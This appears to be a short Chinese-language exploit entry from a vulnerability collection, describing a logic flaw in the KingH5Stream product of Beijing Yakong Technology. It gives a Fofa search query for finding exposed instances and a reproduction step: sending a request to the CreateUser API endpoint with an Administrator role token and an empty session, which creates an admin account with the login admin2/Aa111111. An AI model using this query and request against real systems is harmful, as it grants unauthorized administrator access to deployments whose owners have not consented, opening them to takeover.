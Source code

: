 # K8-5北京亚控科技发展有限公司KingH5Stream逻辑漏洞

<u></u>





### 漏洞描述：北京亚控科技发展有限公司KingH5Stream逻辑漏洞



### Fofa语句：title="KingH5Stream"



### 漏洞复现：

```
替换原数据包（随意数据包）
登录：用户名admin2 密码Aa111111

//api/v1/CreateUser?user=admin2&password=da5075a4a2a708c30f53f6ccb3df0f9f&roletoken=Administrator&session=


```

